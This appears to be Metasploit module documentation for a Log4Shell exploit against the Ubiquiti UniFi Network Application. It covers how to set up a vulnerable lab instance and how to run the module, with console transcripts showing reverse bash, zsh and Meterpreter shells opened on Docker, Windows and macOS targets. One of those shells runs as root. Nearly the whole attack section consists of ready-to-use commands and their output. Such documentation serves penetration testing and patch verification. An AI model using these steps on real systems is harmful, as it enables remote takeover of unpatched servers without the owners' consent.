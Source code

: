 ## Vulnerable Application

### Description
The Ubiquiti UniFi Network Application versions 5.13.29 through 6.5.53 are affected by the Log4Shell
vulnerability whereby a JNDI string can be sent to the server via the 'remember' field of a POST request to the
/api/login endpoint that will cause the server to connect to the attacker and deserialize a malicious Java
object. This results in OS command execution in the context of the server application.

This module will start an LDAP server that the target will need to connect to.

### Setup

1. Either install the Windows application, or start the docker container (use jacobalberty/unifi:v6.5.53).
2. Navigate to the service on HTTPS port 8443 to setup the UniFi controller.
3. On step 2, select the button to "Switch to Advanced Setup"
4. While still on step 2, disable the remote access and "Use your Ubiquiti account for local access" options, then
   create a local account.
5. On step 5, when prompted to setup WiFi, select the "Skip" button in the bottom right corner.
6. Review the configuration, and finalize it.

Older versions of the UniFi Network Application can be downloaded from [community.ui.com][1].

## Verification Steps

1. Start msfconsole
2. Do: `use exploit/multi/http/ubiquiti_unifi_log4shell`
3. Set the `RHOSTS`, `TARGET`, `PAYLOAD`, and payload associated options
4. Do: `run`
5. If the target is vulnerable, the payload should be executed

## Scenarios

### UniFi Network Application v6.6.53 on Docker
This uses jacobalberty/unifi:v6.5.53. Note that tags v6.5.54, v6.0.45, and v5.14.23 all contain the fix for this
vulnerability. See [jacobalberty/unifi](https://hub.docker.com/r/jacobalberty/unifi) for more information.

```
msf6 > use exploit/multi/http/ubiquiti_unifi_log4shell 
[*] Using configured payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/http/ubiquiti_unifi_log4shell) > set TARGET Unix
TARGET => Unix
msf6 exploit(multi/http/ubiquiti_unifi_log4shell) > set RHOST 192.168.250.6
RHOST => 192.168.250.6
msf6 exploit(multi/http/ubiquiti_unifi_log4shell) > set SRVHOST 192.168.250.134
SRVHOST => 192.168.250.134
msf6 exploit(multi/http/ubiquiti_unifi_log4shell) > set LHOST 192.168.250.134
LHOST => 192.168.250.134
msf6 exploit(multi/http/ubiquiti_unifi_log4shell) > set PAYLOAD cmd/unix/reverse_bash
PAYLOAD => cmd/unix/reverse_bash
msf6 exploit(multi/http/ubiquiti_unifi_log4shell) > set RPORT 8443
RPORT => 8443
msf6 exploit(multi/http/ubiquiti_unifi_log4shell) > exploit

[*] Started reverse TCP handler on 192.168.250.134:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[+] Delivering the serialized Java object to execute the payload...
[*] Command shell session 5 opened (192.168.250.134:4444 -> 192.168.250.6:44984 ) at 2022-01-14 09:21:04 -0500
[*] Server stopped.

id
uid=0(root) gid=0(root) groups=0(root)
pwd
/usr/lib/unifi
```

### UniFi Network Application v6.5.53 on Windows Server 2016

```
msf6 > use exploit/multi/http/ubiquiti_unifi_log4shell
[*] Using configured payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/http/ubiquiti_unifi_log4shell) > set TARGET Windows
TARGET => Windows
msf6 exploit(multi/http/ubiquiti_unifi_log4shell) > set RHOST 192.168.159.65
RHOST => 192.168.159.65
msf6 exploit(multi/http/ubiquiti_unifi_log4shell) > set SRVHOST 192.168.159.128
SRVHOST => 192.168.159.128
msf6 exploit(multi/http/ubiquiti_unifi_log4shell) > set LHOST 192.168.159.128
LHOST => 192.168.159.128
msf6 exploit(multi/http/ubiquiti_unifi_log4shell) > set RPORT 8443
RPORT => 8443
msf6 exploit(multi/http/ubiquiti_unifi_log4shell) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf6 exploit(multi/http/ubiquiti_unifi_log4shell) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[+] Delivering the serialized Java object to execute the payload...
[*] Sending stage (175174 bytes) to 192.168.159.65
[*] Meterpreter session 4 opened (192.168.159.128:4444 -> 192.168.159.65:51940 ) at 2022-01-14 09:19:25 -0500
[*] Server stopped.

meterpreter > getuid
Server username: WIN-BPID95ACQ7E\smcintyre
meterpreter > sysinfo
Computer        : WIN-BPID95ACQ7E
OS              : Windows 2016+ (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > 
```

### UniFi Network Application v5.14.22 on OSX 11.2.3

```
msf6 exploit(multi/http/ubiquiti_unifi_log4shell) > show options

Module options (exploit/multi/http/ubiquiti_unifi_log4shell):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   LDIF_FILE                   no        Directory LDIF file path
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     111.111.1.11     yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      8443             yes       The target port (TCP)
   SRVHOST    222.222.2.222    yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    389              yes       The local port to listen on.
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_zsh):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  222.222.2.222    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   2   Unix


msf6 exploit(multi/http/ubiquiti_unifi_log4shell) > run

[*] Started reverse TCP handler on 222.222.2.222:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[+] Delivering the serialized Java object to execute the payload...
[*] Client sent unexpected request 2
[*] Command shell session 2 opened (222.222.2.222:4444 -> 111.111.1.11:50474 ) at 2022-01-20 07:20:22 -0500
[*] Server stopped.

id
uid=501(yourmom) gid=20(staff) groups=20(staff),501(access_bpf),12(everyone),61(localaccounts),79(_appserverusr),80(admin),81(_appserveradm),98(_lpadmin),399(com.apple.access_ssh),701(com.apple.sharepoint.group.1),33(_appstore),100(_lpoperator),204(_developer),250(_analyticsusers),395(com.apple.access_ftp),398(com.apple.access_screensharing),400(com.apple.access_remote_ae)
```

[1]: https://community.ui.com/releases?q=network+application
